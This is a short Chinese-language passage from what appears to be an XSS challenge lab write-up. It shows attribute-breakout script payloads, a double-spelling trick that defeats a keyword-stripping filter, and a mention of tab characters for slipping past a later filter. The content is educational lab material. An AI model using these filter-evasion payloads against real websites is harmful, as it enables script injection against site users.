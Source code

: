构造攻击代码，发现domain被替换为空了

```text
mrzhang76"><script>alert(document.domain);</script><b id="
```

然后构造了双拼写攻击代码

```text
mrzhang76"><script>alert(document.ddomainomain);</script><b id="
```

攻击成功

![](../../.gitbook/assets/image%20%28104%29.png)

## **Stage11:**

使用制表符突破过滤

